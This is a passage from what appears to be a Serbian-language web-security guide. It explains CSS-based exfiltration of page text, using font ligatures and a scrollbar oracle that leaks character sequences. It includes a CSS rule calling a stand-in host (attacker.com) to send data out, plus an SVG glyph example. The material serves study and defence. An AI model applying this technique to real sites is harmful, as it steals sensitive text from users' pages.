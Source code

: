 ```html

<p id="sensitive-information">AB</p>htm
```

Kada pristupite ovoj stranici, Chrome i Firefox dohvaćaju "?A" i "?B" jer tekstni čvor sensitive-information sadrži znakove "A" i "B". Međutim, Chrome i Firefox ne dohvaćaju "?C" jer ne sadrži "C". To znači da smo uspeli pročitati "A" i "B".

### Izvlačenje teksta iz čvora (I): ligature <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

**Reference:** [Wykradanie danych w świetnym stylu – czyli jak wykorzystać CSS-y do ataków na webaplikację](https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/)

Opisana tehnika uključuje izvlačenje teksta iz čvora iskorišćavanjem font ligatura i praćenjem promena u širini. Proces uključuje nekoliko koraka:

1. **Kreiranje prilagođenih fontova**:

* SVG fontovi se oblikuju sa glifovima koji imaju atribut `horiz-adv-x`, koji postavlja veliku širinu za glif koji predstavlja sekvencu od dva znaka.
* Primer SVG glifa: `<glyph unicode="XY" horiz-adv-x="8000" d="M1 0z"/>`, gde "XY" označava sekvencu od dva znaka.
* Ovi fontovi se zatim konvertuju u woff format koristeći fontforge.

2. **Detekcija promena u širini**:

* CSS se koristi kako bi se osiguralo da tekst ne prelazi u novi red (`white-space: nowrap`) i kako bi se prilagodio stil trake za pomeranje.
* Pojava horizontalne trake za pomeranje, stilizovane na poseban način, deluje kao indikator (orakul) da je određena ligatura, a time i određena sekvencija znakova, prisutna u tekstu.
* Uključeni CSS:

```css
body { white-space: nowrap };
body::-webkit-scrollbar { background: blue; }
body::-webkit-scrollbar:horizontal { background: url(http://attacker.com/?leak); }
```

3. **Proces eksploatacije**:

* **Korak 1**: Fontovi se kreiraju za parove znakova sa značajnom širinom.
* **Korak 2**: Koristi se trik sa trakom za pomeranje kako bi se detektovalo kada je veliki glif širine (ligatura za par znakova) prikazan, što ukazuje na prisustvo sekvence znakova.
* **Korak 3**: Nakon detekcije ligature, generišu se novi glifovi koji predstavljaju sekvence od tri znaka, uključujući detektovani par i dodajući prethodni ili sledeći znak.
* **Korak 4**: Sprovodi se detekcija troznakovne ligature.
* **Korak 5**: Proces se ponavlja, postepeno otkrivajući ceo tekst.

4. **Optimizacija**:

* Trenutna metoda inicijalizacije korišćenjem `<meta refresh=...` nije optimalna.
* Efikasniji pristup mogao bi uključivati trik sa CSS `@import`, poboljšavajući performanse eksploatacije.
